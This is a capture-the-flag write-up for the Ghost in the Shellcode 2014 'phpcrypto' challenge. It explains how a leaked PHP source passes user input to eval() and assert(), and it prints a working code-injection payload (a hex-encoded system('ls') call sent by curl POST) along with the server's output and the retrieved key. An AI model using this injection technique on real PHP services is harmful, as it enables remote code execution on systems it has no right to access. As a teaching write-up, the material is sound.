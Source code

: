 # Ghost in the Shellcode 2014: phpcrypto

**Category:** Recon
**Points:** 100
**Description:**

> GitS Presents [PHPCrypto 0.000001](http://phpcrypto.2014.ghostintheshellcode.com/)

## Write-up

The HTML source code of the linked page contains the following:

```js
function encrypt()
{
  key = $("#key")[0].value;
  plaintexthex = toHex($("#plaintext")[0].value);
  function success(data) {$("#ciphertext")[0].value = $.parseJSON(data).returnValue;}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":plaintexthex}, success );
}

function decrypt()
{
  key = $("#key")[0].value;
  ciphertext = $("#ciphertext")[0].value;
  function success(data) {$("#plaintext")[0].value = toAscii($.parseJSON(data).returnValue);}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":ciphertext}, success );
}
```

So, for encoding and decoding, a POST request is made to `/crypto.php` with the name of the function (`customCrypto`), the entered key, and the hexadecimal representation of the input text (for encoding) or the ciphertext (for decoding).

There’s also this comment:

```js
/*
TODO: add support for "help" and "dump" functions
*/
```

When using the `dump` function, the server returns an HTML document containing the syntax-highlighted source code of [the PHP script](https://github.com/ctfs/write-ups/blob/master/ghost-in-the-shellcode-2014/phpcrypto/source.php):

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=dump' > source.html
```

In some cases [the `customCrypto` function](https://github.com/ctfs/write-ups/blob/af43d4f482f869c9c3ba5a0c0bd88e57adf0f39e/ghost-in-the-shellcode-2014/phpcrypto/source.php#L68-L130) ends up in a code path where [`assert()`](http://php.net/assert) is executed:

```php
assert("\$message = \"ERROR! xorKey is: \".strlen(\$xorKey).\" bytes long and the plaintext is: \".strlen($plaintext).\" bytes long.\";");
```

`assert` is like `eval`, except it terminates script execution if the result is `false`. To get there, we need to pass the string `'true'` as the value for the third argument (`$DEBUG`).

That is possible because of this code:

```php
$params = $_POST;
unset($params['function']);

$param_string='';
foreach($params as $key=>$param)
{
    $param = preg_replace('/[^A-Za-z0-9]/','',$param);
    $param_string.=(($param_string)?',':'')."'".$param."'";
}

if (isset($DEBUG) && $DEBUG == "true") { error_log($_POST['function']."($param_string);"); }
eval("echo ".$_POST['function']."($param_string);");
```

All we need to do is use `DEBUG=true` (or `x=true` — the key doesn’t really matter) as the third key/value pair in the POST data, not counting the `function` parameter. This enables remote code execution:

```bash
$ echo -n '").system("ls");//' | xxd -p # will be used as the value for `plaintexthex`
22292e73797374656d28226c7322293b2f2f

$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=customCrypto&key=a&plaintexthex=22292e73797374656d28226c7322293b2f2f&DEBUG=true'
crypto.php
index.php
jquery-1.8.0.min.js
key
{"errorMsg":"The key is: ; and the plaintext is: key","returnValue":"1912154842484f5e56131957481912001414"}
```

Aha! There’s a file named `key`. Let’s see what it says:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/key
ThisWasAStupidTestKeyThatBecameARealBoy
```

## Other write-ups and resources

* <http://tasteless.eu/2014/01/gits-2014-phpcrypto-recon-100/>
